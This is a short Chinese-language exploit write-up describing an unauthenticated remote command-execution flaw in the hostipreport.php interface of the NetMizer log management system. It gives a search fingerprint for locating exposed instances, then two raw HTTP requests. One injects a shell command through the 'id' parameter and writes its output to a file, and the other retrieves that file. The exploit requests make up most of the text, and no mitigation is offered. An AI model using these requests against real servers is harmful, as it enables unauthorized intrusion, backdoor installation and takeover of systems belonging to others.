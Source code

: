 # NetMizer日志管理系统hostipreport接口存在RCE漏洞

### 一、漏洞描述
NetMizer 日志管理系统hostipreport接口处存在命令执行漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行命令，写入后门，获取服务器权限，进而控制整个web服务器。

### 二、资产测绘
```plain
title="NetMizer 日志管理系统"
```

### 四、漏洞复现
```plain
GET /data/yxproject/hostipreport.php?action=showtask&id=;id>test123.txt; HTTP/1.1
Host: 
User-Agent: Moziilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

访问路径获取文件
```plain
GET /data/yxproject/test123.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip
```
